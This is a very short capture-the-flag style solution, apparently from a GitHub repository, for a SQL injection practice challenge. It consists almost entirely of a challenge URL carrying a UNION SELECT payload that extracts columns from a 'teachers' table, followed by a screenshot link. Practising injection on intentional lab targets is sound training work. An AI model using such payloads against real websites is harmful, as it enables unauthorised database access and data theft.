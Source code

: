 Chall Url:
Payload:
http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=1%20union%20select%20id,teacher,teacher_age,price%20from%20teachers%20where%20id=11--+-


![](https://user-images.githubusercontent.com/25671488/61189444-4e03c880-a6ab-11e9-9909-049ba74428ce.png)
